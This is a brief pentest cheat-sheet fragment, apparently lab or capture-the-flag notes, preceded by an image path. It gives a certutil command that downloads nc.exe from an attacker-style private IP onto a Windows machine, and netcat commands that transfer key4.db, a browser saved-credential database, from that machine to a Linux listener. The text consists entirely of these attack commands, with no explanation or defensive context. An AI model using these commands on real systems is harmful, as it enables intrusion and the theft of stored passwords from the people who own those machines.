 Download file in Windows Machine.
certutil -urlcache -f http://10.9.3.223:80/nc.exe nc.exe

Transfer file from Windows Machine to Linux (netcat)
nc -nv 10.9.3.223 443 < key4.db (on windows machine)
nc -nvlp 443 > key4.db (on Linux Machine)
